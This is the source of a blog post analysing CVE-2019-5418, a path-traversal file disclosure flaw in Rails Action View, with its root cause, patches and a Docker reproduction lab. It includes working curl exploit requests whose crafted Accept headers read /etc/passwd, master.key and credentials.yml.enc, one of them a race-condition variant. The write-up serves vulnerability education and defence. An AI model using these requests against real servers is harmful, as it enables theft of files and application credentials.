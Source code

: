 ```yaml
---
layout: post
title:  "CVE-2019-5418"
summary: "File Content Disclosure in Action View"
date: 2020-08-09 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

[First published](https://nvd.nist.gov/vuln/detail/CVE-2019-5418) on 27 March 2019

# File Content Disclosure in Action View

## tl;dr
If you render files without templates in your controllers on affected versions of Rails, it is possible for attackers to read arbitrary files on your file system. From there, bad things happen.
{: .critical }

<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        6.0.0.beta3<br/>
        5.2.2.1<br/>
        5.1.6.2<br/>
        5.0.7.2<br/>
        4.2.11.1
      </td>
    </tr>
  </tbody>
</table>

## Weakness

This vulnerability lets an attacker [traverse directory paths ](http://cwe.mitre.org/data/definitions/22.html) which can then lead to the [exposure of sensitive information](http://cwe.mitre.org/data/definitions/200.html).

## Vulnerability

Specially crafted `Accept` request headers in combination with a call to endpoints that `render file:` can be used to traverse directory paths and expose sensitive information.

A vulnerable controller will look something like this:

```ruby
class UserController < ApplicationController
  def index
    render file: "#{Rails.root}/some/file"
  end
end
```

The attacking request will look something like this:

{% highlight bash %}
{% raw %}
curl -H 'Accept: ../../../../../../../../etc/passwd{{' http://target/users
{% endraw %}
{% endhighlight %}

Since the target endpoint controller renders files without a specified accept format, then the contents of the file `/etc/passwd` can be read.

## Breakdown

The `ActionView::TemplateRenderer` class will try to resolve a path, that is based on the formats requested in the `Accept` header.[^fn-render]

The attack exploits code in the `ActionView::PathResolver` class, in particular, the way in which template paths are queried in the [find_template_paths](https://github.com/rails/rails/blob/v5.2.1/actionview/lib/action_view/template/resolver.rb#L246-L252) method.

```ruby
def find_template_paths(query)
  Dir[query].uniq.reject do |filename|
    File.directory?(filename) ||
      # deals with case-insensitive file systems.
      !File.fnmatch(query, filename, File::FNM_EXTGLOB)
  end
end
```

Objects of class `Dir` are directory streams, representing directories in the underlying file system. `Dir[query]` is equivalent to calling `Dir.glob([string,...], 0)` which will return an array of matching directories.

The pattern passed to the `glob` method looks like a regexp but is more like a shell glob. The attacker takes advantage of this by passing in a pattern that looks like this:

{% highlight shell %}
{% raw %}
../../../../../../../../etc/passwd{{
{% endraw %}
{% endhighlight %}

So instead of a glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.html,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The addition of the `Accept` header will glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.../../../../../../**/config/master.key{{,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The double `{` is enough to make this a valid pattern. The `../` pattern goes up one directory from wherever the code is called, and repeating them enough times, gets you back to root, high enough to then read in something like `/etc/passwd`. The contents of that file are then cached and rendered back to the user.

The attacker can do more damage though, by reading sensitive files, such as those used by the Rails credentials API. These files typically live in the `#{Rails.root}/config/` directory, and the attacker can use a pattern that looks like this to read them:

{% highlight shell %}
{% raw %}
../../../../../../**/config/master.key{{
{% endraw %}
{% endhighlight %}

The inclusion of a `**` pattern will match directories recursively (without needing to guess the directory layout), and the `config/master.key` pattern should find the `master.key` in the target Rails config directory. If the attacker retrieves that key along with `credentials.yml.enc` from the same directory, they will be able to decrypt and use related credentials in chained attacks.

Of note though, the contents are cached[^fn-cached] so an attacker will need to make multiple requests to different servers or wait for your server to be redeployed with a cold cache. It's also possible to fork a race condition with something like this to retrieve both files:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' \
  http://localhost:3000/users/index & \
curl -H 'Accept: ../../../../../../**/config/credentials.yml.enc{{' \
  http://localhost:3000/users/index
{% endraw %}
{% endhighlight %}

## Fix

<mark>The best fix for this, is to upgrade Rails to one of the patched versions.</mark>

The vulnerability can be mitigated by making sure you render files with a fixed format:

```ruby
render file: "#{Rails.root}/some/file", formats: [:html]
```
You can also monkey patch `ActionDispatch` via your own initializer, which is similar to what the [patched versions](https://github.com/rails/rails/blob/fbe2433be6e052a1acac63c7faf287c52ed3c5ba/actionpack/lib/action_dispatch/http/mime_negotiation.rb#L83-L85) of the `MimeNegotiation` module do to prevent string containing traverse patterns being accepted in the first place:

```ruby
ActionDispatch::Request.prepend(Module.new do
  def formats
    super().select do |format|
      format.symbol || format.ref == "*/*"
    end
  end
end)
```

In general, it's best to upgrade to a patched version of Rails before patching this yourself. The latter is easily forgotten over time and can cause you all sorts of headaches in future.

# Research

You can re-create this with a [canned CVE environment](https://github.com/correkthorse/rails-cve-testing) using Docker. To build the vulnerable image:

    $ CVE=CVE-2019-5418 RAILS_VERSION=5.2.1 make build

Then to run it locally, for testing:

    $ CVE=CVE-2019-5418 make server

Then target it:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' http://localhost:3000/users/index
flag{master}
{% endraw %}
{% endhighlight %}

# References

[^fn-render]: [Analysis for CVE-2019-5418 File Content Disclosure on Rails ](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/)
[^fn-cached]: [CVE-2019–5418: on WAF bypass and caching](https://blog.pentesterlab.com/cve-2019-5418-on-waf-bypass-and-caching-10e93f9a1981)
